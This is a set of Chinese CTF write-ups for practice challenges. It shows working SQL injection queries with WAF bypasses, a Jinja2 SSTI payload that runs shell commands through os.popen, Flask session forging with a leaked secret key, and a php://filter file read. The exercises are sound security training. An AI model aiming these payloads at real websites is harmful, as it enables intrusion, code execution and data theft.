NSSCTF WP 10
===

## [WEB] [HUBUCTF 2022 新生赛] ezsql

### 题解

打开是一个登录界面, 先注册再登录:



注意登录界面对不同的错误有不同的报错, 进一步 fuzz 之后发现此界面似乎没有注入点, 登录一个账号, 再扫一下目录:

又扫到源码了:



一处明显的注入:

```php
$query=$mysqli->query("update users set age=$_POST[age],nickname='$_POST[nickname]',description='$_POST[description]' where id=$_SESSION[id]");
```

后续省略, 依次爆破即可;


## [WEB] [FBCTF 2019]Event view

### 题解

打开并注册一个账户, 发现有个 admin 面板, 路由是 `/flag`, 猜测需要提权到 admin 用户:

抓包一个活动提交界面:



注意看 cookie: `<urlsafe-base64-encoded-data>.<timestamp>.<signature>` 这样的格式非常可能是 flask 网站; 用工具验证一下:



flask 网站可能有 SSTI 注入问题, 测试: `__dict__`



有回显, 接下来构造 payload: `__class__.__init__.__globals__[app].config`: 



爆出 config 文件。其中 SECRET_KEY 为 `fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y`;

拿到了 SECRET_KEY, 就可以伪造 cookie 了:

```python
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session_serializer.dumps("admin"))

index()
```

进入 `/flag` 改 cookie 中的 user 部分即可:



## [WEB] [NCTF 2018] Go Lakers

### 题解

题目提示往下拉: 进入题目重定向到了虎扑, 抓包发现 302, 往下拉看见注释:

```html
<!-- post me viewsource -->
```

```
POST
viewsource
```

出现源码:

```php
<?php
error_reporting(0);
include 'getip.php';
ini_set('open_basedir','.');
if(isset($_POST['viewsource'])){
    highlight_file(__FILE__);
    die();
}

mt_srand(mktime()+$seed);

function de_code($value){
    $value = base64_decode($value);
    $result = '';
    for($i=0;$i<strlen($value);$i++){
        $result .= chr(ord($value[$i])-$i*2);
    }
    return $result;
}

if(!(getip() === '127.0.0.1' && file_get_contents($_GET['9527']) === 'nctf_is_good' && mt_rand(1,10000) === intval($_GET['go_Lakers']))){
    header('location:https://bbs.hupu.com/24483652.html?share_from=kqapp');
}else{
    echo 'great';
}

echo file_get_contents(de_code($_GET['file_']));

?>

<!DOCTYPE html>
<html>
<head>
    <title>嘻嘻嘻</title>
</head>
<body>
<h3>题目在哪呢</h3>
</body>
</html>>
```

同时爆一下目录: 发现 flag.php;



这串 `en_code()` 函数显然有攻击点, 写个攻击代码:

```php
import base64

def en_code(value):
    for i in range(len(value)):
        value = value[:i] + chr(ord(value[i]) + i * 2) + value[i+1:]
    return base64.b64encode(value.encode('utf-8')).decode('utf-8')

if __name__ == "__main__":
    target = "flag.php"
    encoded = en_code(target)
    print(f"Encoded string: {encoded}")
```

发现 `$flag = $FLAG`; 后续看了下 wp 应该是结束了, 这里似乎是靶场环境问题?



## [REVERSE] [WUSTCTF 2020] level4

### 题解

IDA 打开文件, 一个 64 位 ELF, 关键函数:

```c
__int64 __fastcall type1(char *a1)
{
  __int64 result; // rax

  if ( a1 )
  {
    type1(*((_QWORD *)a1 + 1));
    putchar(*a1);
    result = type1(*((_QWORD *)a1 + 2));
  }
  return result;
}
```

一个递归函数, 与此相似的还有个 `type2()`, 按数组往下遍历的逻辑, 看起来非常像树的遍历? 试着运行一下:



看起来分别是 **中序遍历** 和 **后序遍历**, 还原二叉树:

```Mermaid
graph TD
    N0["w"]
    N1["c"]
    N2["t"]
    N3["f"]
    N4["2"]
    N5["0"]
    N6["2"]
    N7["0"]
    N8["{"]
    N9["T"]
    N10["h"]
    N11["i"]
    N12["s"]
    N13["_"]
    N14["I"]
    N15["S"]
    N16["_"]
    N17["A"]
    N18["_"]
    N19["7"]
    N20["r"]
    N21["e"]
    N22["E"]
    N23["}"]
    N0 --> N1
    N0 --> N16
    N1 --> N2
    N1 --> N11
    N2 --> N3
    N2 --> N6
    N3 --> N4
    N3 --> N5
    N6 --> N7
    N6 --> N8
    N8 --> N9
    N8 --> N10
    N11 --> N12
    N11 --> N13
    N13 --> N14
    N13 --> N15
    N16 --> N17
    N16 --> N18
    N18 --> N19
    N19 --> N20
    N19 --> N21
    N21 --> N22
    N21 --> N23
```

先序遍历:  `wctf2020{This_IS_A_7reE}`, 这就是 flag;

## [NCTF 2018] flask真香#

### 题解

根据题目猜测是 SSTI 注入:

主页没找到参数点, 根据网站现有的按钮, 猜测有可能是路由注入: 



确实有, 继续试 payload, 发现 `lipsum` 可用:



发现 `eval`



构造 payload 并拼接字符串绕过过滤:

```python
{{lipsum.__globals__['__bui''lt''ins__']['ev''al']("__im""port__('o''s').po""pen('ls /').read()")}}
```



```python
{{lipsum.__globals__['__bui''lt''ins__']['ev''al']("__im""port__('o''s').po""pen('tail /Th1s_is__F1114g').read()")}}
```



## [WEB] [NSSCTF 2022 Spring Recruit] babysql

### 题解

上来测试一下 WAF, 直接给出黑名单:



测试得出是单引号字符型注入, 依次推:

```
'/**/union/**/select/**/database()'
# 回显 test
```



```
'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='test
# 回显 flag

'/**/union/**/select/**/column_name/**/from/**/information_schema./columns/**/where/**/table_name='flag
# 回显 flag
```





```
'/**/union/**/select/**/group_concat(flag)/**/from/**/flag
# 注意此处无法闭合, 考虑到源码可能是上下文, 需要将 select 再做一层嵌套, 这样就不会报错:
'/**/union/**/select/**/(select/**/group_concat(flag)/**/from/**/test.flag)'
```



## [WEB] [NISACTF 2022] easyssrf

### 题解

打开题目, 是一个快照网站, 直接尝试本地:



挨个枚举试试, 直到这个:



用 `file://` 伪协议:



拿到源码:

```php
 <?php

highlight_file(__FILE__);
error_reporting(0);

$file = $_GET["file"];
if (stristr($file, "file")){
  die("你败了.");
}

//flag in /flag
echo file_get_contents($file); 
```

显然用 php 伪协议就行了, 最终 payload:

```
(GET)
file=php://filter/convert.base64-encode/resource=/flag
```



解码后得到 flag;

## [WEB] [GXYCTF 2019] BabySqli

### 题解

一个登录界面, 首先随便输个组合, 返回了 "wrong user", 此处存在不同报错, 因此尝试一下用户名 admin, 抓包:



注意此处的注释, base32 解码后再 base64 解码, 得到: `select * from user where username = '$name'`, 应该就是源码, 那么这里是一处单引号字符型注入;



fuzz 一下, 发现大量的关键字都被屏蔽了, 看了一下提示, 尝试传数组, 会爆出 md5 函数的信息, 说明是对密码做了一层 md5 哈希:



接下来用 `union select` 试出字段数为 3; 

payload:

```
(POST)
name='union+select+1,'admin','c4ca4238a0b923820dcc509a6f75849b'+%23+&pw=1
```

这一串字符串就是 1 的 md5 哈希, 通过这个 payload 让哈希值比对的两端都可控, 即完成绕过;



